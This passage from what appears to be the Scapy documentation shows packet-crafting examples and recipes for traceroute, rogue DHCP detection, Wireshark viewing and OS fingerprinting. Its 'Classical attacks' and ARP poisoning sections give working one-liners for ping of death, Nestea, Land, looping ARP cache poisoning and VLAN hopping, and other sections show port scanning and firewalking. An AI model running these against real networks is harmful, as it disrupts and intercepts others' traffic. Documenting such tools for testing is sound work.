     b'alt2.aspmx.l.google.com.',
     b'alt3.aspmx.l.google.com.']


Classical attacks
-----------------

Malformed packets::

    >>> send(IP(dst="10.1.1.5", ihl=2, version=3)/ICMP()) 

Ping of death (Muuahahah)::

    >>> send( fragment(IP(dst="10.0.0.5")/ICMP()/("X"*60000)) ) 

Nestea attack::

    >>> send(IP(dst=target, id=42, flags="MF")/UDP()/("X"*10)) 
    >>> send(IP(dst=target, id=42, frag=48)/("X"*116)) 
    >>> send(IP(dst=target, id=42, flags="MF")/UDP()/("X"*224)) 
    
Land attack (designed for Microsoft Windows)::

    >>> send(IP(src=target,dst=target)/TCP(sport=135,dport=135))

ARP cache poisoning   
------------------- 
This attack prevents a client from joining the gateway by poisoning 
its ARP cache through a VLAN hopping attack. 

Classic ARP cache poisoning::

    >>> send( Ether(dst=clientMAC)/ARP(op="who-has", psrc=gateway, pdst=client), 
          inter=RandNum(10,40), loop=1 ) 

ARP cache poisoning with double 802.1q encapsulation::
 
    >>> send( Ether(dst=clientMAC)/Dot1Q(vlan=1)/Dot1Q(vlan=2) 
          /ARP(op="who-has", psrc=gateway, pdst=client),
          inter=RandNum(10,40), loop=1 )

TCP Port Scanning 
-----------------
 
Send a TCP SYN on each port. Wait for a SYN-ACK or a RST or an ICMP error:: 

    >>> res, unans = sr( IP(dst="target") 
                    /TCP(flags="S", dport=(1,1024)) ) 

Possible result visualization: open ports

::

    >>> res.nsummary( lfilter=lambda (s,r): (r.haslayer(TCP) and (r.getlayer(TCP).flags & 2)) )
    
    
IKE Scanning
------------

We try to identify VPN concentrators by sending ISAKMP Security Association proposals
and receiving the answers::

    >>> res, unans = sr( IP(dst="192.168.1.*")/UDP()
                    /ISAKMP(init_cookie=RandString(8), exch_type="identity prot.") 
                    /ISAKMP_payload_SA(prop=ISAKMP_payload_Proposal()) 
                  ) 

Visualizing the results in a list::

    >>> res.nsummary(prn=lambda (s,r): r.src, lfilter=lambda (s,r): r.haslayer(ISAKMP) ) 
    
  

Advanced traceroute
-------------------

TCP SYN traceroute
^^^^^^^^^^^^^^^^^^

::

    >>> ans, unans = sr(IP(dst="4.2.2.1",ttl=(1,10))/TCP(dport=53,flags="S"))

Results would be::

    >>> ans.summary( lambda(s,r) : r.sprintf("%IP.src%\t{ICMP:%ICMP.type%}\t{TCP:%TCP.flags%}"))
    192.168.1.1     time-exceeded
    68.86.90.162    time-exceeded
    4.79.43.134     time-exceeded
    4.79.43.133     time-exceeded
    4.68.18.126     time-exceeded
    4.68.123.38     time-exceeded
    4.2.2.1         SA


UDP traceroute
^^^^^^^^^^^^^^

Tracerouting an UDP application like we do with TCP is not 
reliable, because there's no handshake. We need to give an applicative payload (DNS, ISAKMP, 
NTP, etc.) to deserve an answer::

    >>> res, unans = sr(IP(dst="target", ttl=(1,20))
                  /UDP()/DNS(qd=DNSQR(qname="test.com")) 

We can visualize the results as a list of routers::

    >>> res.make_table(lambda (s,r): (s.dst, s.ttl, r.src)) 


DNS traceroute
^^^^^^^^^^^^^^

We can perform a DNS traceroute by specifying a complete packet in ``l4`` parameter of ``traceroute()`` function::

    >>> ans, unans = traceroute("4.2.2.1",l4=UDP(sport=RandShort())/DNS(qd=DNSQR(qname="thesprawl.org")))
    Begin emission:
    ..*....******...******.***...****Finished to send 30 packets.
    *****...***...............................
    Received 75 packets, got 28 answers, remaining 2 packets
       4.2.2.1:udp53      
    1  192.168.1.1     11 
    4  68.86.90.162    11 
    5  4.79.43.134     11 
    6  4.79.43.133     11 
    7  4.68.18.62      11 
    8  4.68.123.6      11 
    9  4.2.2.1            
    ...


Etherleaking 
------------

::

    >>> sr1(IP(dst="172.16.1.232")/ICMP()) 
    <IP src=172.16.1.232 proto=1 [...] |<ICMP code=0 type=0 [...]| 
    <Padding load=’0O\x02\x01\x00\x04\x06public\xa2B\x02\x02\x1e’ |>>> 

ICMP leaking
------------ 

This was a Linux 2.0 bug:: 

    >>> sr1(IP(dst="172.16.1.1", options="\x02")/ICMP()) 
    <IP src=172.16.1.1 [...] |<ICMP code=0 type=12 [...] | 
    <IPerror src=172.16.1.24 options=’\x02\x00\x00\x00’ [...] | 
    <ICMPerror code=0 type=8 id=0x0 seq=0x0 chksum=0xf7ff | 
    <Padding load=’\x00[...]\x00\x1d.\x00V\x1f\xaf\xd9\xd4;\xca’ |>>>>> 


VLAN hopping 
------------

In very specific conditions, a double 802.1q encapsulation will 
make a packet jump to another VLAN::
 
    >>> sendp(Ether()/Dot1Q(vlan=2)/Dot1Q(vlan=7)/IP(dst=target)/ICMP()) 


Wireless sniffing
-----------------

The following command will display information similar to most wireless sniffers::

>>> sniff(iface="ath0", monitor=True, prn=lambda x:x.sprintf("{Dot11Beacon:%Dot11.addr3%\t%Dot11Beacon.info%\t%PrismHeader.channel%\t%Dot11Beacon.cap%}"))

Note the `monitor=True` argument, which only work from scapy>2.4.0 (2.4.0dev+), that is cross-platform. It will in work in most cases (Windows, OSX), but might require you to manually toggle monitor mode.

The above command will produce output similar to the one below::

    00:00:00:01:02:03 netgear      6L   ESS+privacy+PBCC
    11:22:33:44:55:66 wireless_100 6L   short-slot+ESS+privacy
    44:55:66:00:11:22 linksys      6L   short-slot+ESS+privacy
    12:34:56:78:90:12 NETGEAR      6L   short-slot+ESS+privacy+short-preamble


Recipes 
=======

Simplistic ARP Monitor
----------------------

This program uses the ``sniff()`` callback (parameter prn). The store parameter is set to 0 so that the ``sniff()`` function will not store anything (as it would do otherwise) and thus can run forever. The filter parameter is used for better performances on high load : the filter is applied inside the kernel and Scapy will only see ARP traffic.

::

    #! /usr/bin/env python
    from scapy.all import *
    
    def arp_monitor_callback(pkt):
        if ARP in pkt and pkt[ARP].op in (1,2): #who-has or is-at
            return pkt.sprintf("%ARP.hwsrc% %ARP.psrc%")
    
    sniff(prn=arp_monitor_callback, filter="arp", store=0)

Identifying rogue DHCP servers on your LAN 
-------------------------------------------

.. index::
   single: DHCP

Problem
^^^^^^^

You suspect that someone has installed an additional, unauthorized DHCP server on your LAN -- either unintentionally or maliciously. 
Thus you want to check for any active DHCP servers and identify their IP and MAC addresses.  

Solution
^^^^^^^^

Use Scapy to send a DHCP discover request and analyze the replies::

    >>> conf.checkIPaddr = False
    >>> fam,hw = get_if_raw_hwaddr(conf.iface)
    >>> dhcp_discover = Ether(dst="ff:ff:ff:ff:ff:ff")/IP(src="0.0.0.0",dst="255.255.255.255")/UDP(sport=68,dport=67)/BOOTP(chaddr=hw)/DHCP(options=[("message-type","discover"),"end"])
    >>> ans, unans = srp(dhcp_discover, multi=True)      # Press CTRL-C after several seconds
    Begin emission:
    Finished to send 1 packets.
    .*...*..
    Received 8 packets, got 2 answers, remaining 0 packets

In this case we got 2 replies, so there were two active DHCP servers on the test network::

    >>> ans.summary()
    Ether / IP / UDP 0.0.0.0:bootpc > 255.255.255.255:bootps / BOOTP / DHCP ==> Ether / IP / UDP 192.168.1.1:bootps > 255.255.255.255:bootpc / BOOTP / DHCP
    Ether / IP / UDP 0.0.0.0:bootpc > 255.255.255.255:bootps / BOOTP / DHCP ==> Ether / IP / UDP 192.168.1.11:bootps > 255.255.255.255:bootpc / BOOTP / DHCP

We are only interested in the MAC and IP addresses of the replies: 

    >>> for p in ans: print p[1][Ether].src, p[1][IP].src
    ...
    00:de:ad:be:ef:00 192.168.1.1
    00:11:11:22:22:33 192.168.1.11

Discussion
^^^^^^^^^^

We specify ``multi=True`` to make Scapy wait for more answer packets after the first response is received.
This is also the reason why we can't use the more convenient ``dhcp_request()`` function and have to construct the DHCP packet manually: ``dhcp_request()`` uses ``srp1()`` for sending and receiving and thus would immediately return after the first answer packet. 

Moreover, Scapy normally makes sure that replies come from the same IP address the stimulus was sent to. But our DHCP packet is sent to the IP broadcast address (255.255.255.255) and any answer packet will have the IP address of the replying DHCP server as its source IP address (e.g. 192.168.1.1). Because these IP addresses don't match, we have to disable Scapy's check with ``conf.checkIPaddr = False`` before sending the stimulus.  

See also
^^^^^^^^

http://en.wikipedia.org/wiki/Rogue_DHCP



Firewalking 
-----------

TTL decrementation after a filtering operation 
only not filtered packets generate an ICMP TTL exceeded 

    >>> ans, unans = sr(IP(dst="172.16.4.27", ttl=16)/TCP(dport=(1,1024))) 
    >>> for s,r in ans: 
            if r.haslayer(ICMP) and r.payload.type == 11: 
                print s.dport 

Find subnets on a multi-NIC firewall 
only his own NIC’s IP are reachable with this TTL:: 

    >>> ans, unans = sr(IP(dst="172.16.5/24", ttl=15)/TCP()) 
    >>> for i in unans: print i.dst


TCP Timestamp Filtering
------------------------

Problem
^^^^^^^

Many firewalls include a rule to drop TCP packets that do not have TCP Timestamp option set which is a common occurrence in popular port scanners.

Solution
^^^^^^^^

To allow Scapy to reach target destination additional options must be used::

    >>> sr1(IP(dst="72.14.207.99")/TCP(dport=80,flags="S",options=[('Timestamp',(0,0))]))



Viewing packets with Wireshark
------------------------------

.. index::
   single: wireshark()

Problem
^^^^^^^

You have generated or sniffed some packets with Scapy.

Now you want to view them with `Wireshark <https://www.wireshark.org>`_, because
of its advanced packet dissection capabilities.

Solution
^^^^^^^^

That's what :py:func:`wireshark` is for!

.. code-block:: python3

    # First, generate some packets...
    packets = IP(src="192.0.2.9", dst=Net("192.0.2.10/30"))/ICMP()

    # Show them with Wireshark
    wireshark(packets)

Wireshark will start in the background, and show your packets.
 
Discussion
^^^^^^^^^^

.. py:function:: wireshark(pktlist, ...)

    With a :py:class:`Packet` or :py:class:`PacketList`, serialises your
    packets, and streams this into Wireshark via ``stdin`` as if it were a
    capture device.

    Because this uses ``pcap`` format to serialise the packets, there are some
    limitations:

    * Packets must be all of the same ``linktype``.

      For example, you can't mix :py:class:`Ether` and :py:class:`IP` at the
      top layer.

    * Packets must have an assigned (and supported) ``DLT_*`` constant for the
      ``linktype``.  An unsupported ``linktype`` is replaced with ``DLT_EN10MB``
      (Ethernet), and will display incorrectly in Wireshark.

      For example, can't pass a bare :py:class:`ICMP` packet, but you can send
      it as a payload of an :py:class:`IP` or :py:class:`IPv6` packet.

    With a filename (passed as a string), this loads the given file in
    Wireshark. This needs to be in a format that Wireshark supports.

    You can tell Scapy where to find the Wireshark executable by changing the
    ``conf.prog.wireshark`` configuration setting.

    This accepts the same extra parameters as :py:func:`tcpdump`.

.. seealso::

    :py:class:`WiresharkSink`
        A :ref:`PipeTools sink <pipetools>` for live-streaming packets.

    :manpage:`wireshark(1)`
        Additional description of Wireshark's functionality, and its
        command-line arguments.

    `Wireshark's website`__
        For up-to-date releases of Wireshark.

    `Wireshark Protocol Reference`__
        Contains detailed information about Wireshark's protocol dissectors, and
        reference documentation for various network protocols.

__ https://www.wireshark.org
__ https://wiki.wireshark.org/ProtocolReference

OS Fingerprinting
-----------------

ISN
^^^

Scapy can be used to analyze ISN (Initial Sequence Number) increments to possibly discover vulnerable systems. First we will collect target responses by sending a number of SYN probes in a loop::

    >>> ans, unans = srloop(IP(dst="192.168.1.1")/TCP(dport=80,flags="S"))

Once we obtain a reasonable number of responses we can start analyzing collected data with something like this:

    >>> temp = 0
    >>> for s, r in ans:
    ...    temp = r[TCP].seq - temp
    ...    print("%d\t+%d" % (r[TCP].seq, temp))
    ... 
    4278709328      +4275758673
    4279655607      +3896934
    4280642461      +4276745527
    4281648240      +4902713
    4282645099      +4277742386
    4283643696      +5901310

nmap_fp
^^^^^^^

Nmap fingerprinting (the old "1st generation" one that was done by Nmap up to v4.20) is supported in Scapy. In Scapy v2 you have to load an extension module first::

    >>> load_module("nmap")

If you have Nmap installed you can use it's active os fingerprinting database with Scapy. Make sure that version 1 of signature database is located in the path specified by::

    >>> conf.nmap_base

Then you can use the ``nmap_fp()`` function which implements same probes as in Nmap's OS Detection engine::

    >>> nmap_fp("192.168.1.1",oport=443,cport=1)
    Begin emission:
    .****..**Finished to send 8 packets.
    *................................................
    Received 58 packets, got 7 answers, remaining 1 packets
    (1.0, ['Linux 2.4.0 - 2.5.20', 'Linux 2.4.19 w/grsecurity patch', 
    'Linux 2.4.20 - 2.4.22 w/grsecurity.org patch', 'Linux 2.4.22-ck2 (x86)
    w/grsecurity.org and HZ=1000 patches', 'Linux 2.4.7 - 2.6.11'])

p0f
^^^

If you have p0f installed on your system, you can use it to guess OS name and version right from Scapy (only SYN database is used). First make sure that p0f database exists in the path specified by::

    >>> conf.p0f_base

For example to guess OS from a single captured packet:

    >>> sniff(prn=prnp0f)
    192.168.1.100:54716 - Linux 2.6 (newer, 1) (up: 24 hrs)
      -> 74.125.19.104:www (distance 0)
    <Sniffed: TCP:339 UDP:2 ICMP:0 Other:156>



